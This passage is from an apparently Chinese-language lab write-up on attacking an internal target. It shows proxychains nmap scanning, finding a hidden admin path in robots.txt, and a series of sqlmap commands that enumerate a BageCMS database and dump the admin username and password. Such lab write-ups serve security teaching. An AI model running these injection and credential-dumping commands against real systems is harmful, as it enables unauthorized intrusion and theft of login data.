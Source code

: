     root@kali:~# proxychains4 nmap -Pn -sT 192.168.22.22
    -Pn：扫描主机检测其是否受到数据包过滤软件或防火墙的保护。
    -sT：扫描TCP数据包已建立的连接connect
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214256640.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**0x03 Target2**

a、获取shell

1、上一步发现存在80端口，因此我们设置好浏览器代理后，打开看看-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214324185.png%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214329133.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
2、拿到站点后，经过简单的信息收集，不难找到robots.txt文件中隐藏的后台地址以及主页源码中给的提示

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214338734.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214348997.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214353597.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
3、目前为止，步骤就很鲜明了，利用SQL注入找到后台管理员账号密码，那就用sqlmap开整吧-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214405289.png%23pic_center)

    root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&keyword=1” -p keyword
    
        

4、已经发现了此站点的数据库为MySQL，使用的Nginx和php，接下来找库

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214413228.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)`root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&keyword=1” -p keyword –dbs`

5、看看bagecms下有哪些表

    root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&keyword=1” -p keyword -D bagecms –tables
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214432956.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
6、看一下bage\_admin下的内容

    root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&keyword=1” -p keyword -D bagecms -T bage_admin –columns
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214449225.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
7、username、password自然是最感兴趣的啦，给它dump下来，在dump的过程中sqlmap会有一些提示，一路yes就行

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020101221450850.png%23pic_center)

    root@kali:~# proxychains4 sqlmap -u “http://192.168.22.22/index.php?r=vul&keyword=1” -p keyword -D bagecms -T bage_admin -C username,password –dump
    
        

8、找到我们想要的了，登陆后台，看看有哪些功能
